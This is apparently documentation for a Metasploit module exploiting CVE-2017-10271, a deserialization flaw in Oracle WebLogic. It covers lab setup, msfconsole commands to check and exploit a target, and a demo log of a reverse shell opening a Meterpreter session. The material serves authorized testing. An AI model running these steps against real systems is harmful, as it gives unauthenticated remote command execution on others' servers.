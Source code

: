 ## Vulnerable Application


CVE-2017-10271 exploits an XML deserialization vulnerability in Oracle WebLogic via the AsyncResponseService component.  The exploit provides an unauthenticated attacker with remote arbitrary command execution.

Oracle Weblogic runs as a Java-based service in Windows, Linux, and Unix environments.  It is downloadable from Oracle once registered for an account.  For testing vulnerable environments, we used Weblogic 10.3.6 for Ubuntu (`wls1036_linux32.bin`), Weblogic 10.3.6 for Windows (`wls1036_dev.zip`).  For testing a non-vulnerable environment, we used Weblogic 12.2.1.2 (`fmw_12.2.1.2.0_wls.jar`) in combination with a JDK (`jdk-8u211-windows-x64.exe`).

## Verification Steps

#### Install the application
  1. Install the application using the binaries above, with both a WebLogic server and an admin server.
  2. When prompted, name the project `base_domain`.
  3. When prompted, use a development environment instead of a production environment.
  4. When prompted, keep the default port of TCP/7001.
  5. When prompted, provide a username and password, and make a note of them.
  6. Upon completion of the installer, find and execute the admin server.  On Windows: `C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\startWebLogic.cmd`.  On Linux: `~/Oracle/Middleware/user_projects/base_domain/bin/startWebLogic.sh`
  7. You may be prompted for the username and password you generated during the install process.
  8. Wait for the output: `<Server state changed to RUNNING.>`

#### Checking for the vulnerability
  1. Start msfconsole
  2. `use exploit/multi/misc/weblogic_deserialize_asyncresponseservice`
  3. Configure RHOSTS to the target address, and set RPORT if the default port is not being used.
  4. Run the `check` method to confirm exploitability.
  5. Look for the following output:

```
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > check
[+] 172.16.135.128:8088 - The target is vulnerable.
```

#### Exploiting the vulnerability
  1. Follow the steps in the previous "checking" section.
  2. Set the operating system of the target (eg. `set TARGET Windows`)
  3. Configure the payload and payload parameters.
  4. `run`

## Option

  **TARGETURI**
  
`URIPATH` is the URI (eg. `http://192.168.192.132`) used for the HTTP request.  In most cases, this value can be left blank and will be substituted with the IP address from RHOSTS.  Potential uses of this option include if the host is behind network translation or requires a hostname to handle virtual hosts.

## Demo

```
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Generating payload...
[*] Sending payload...
[*] Sending stage (179779 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49266) at 2019-05-22 14:16:03 -0500

meterpreter >
```
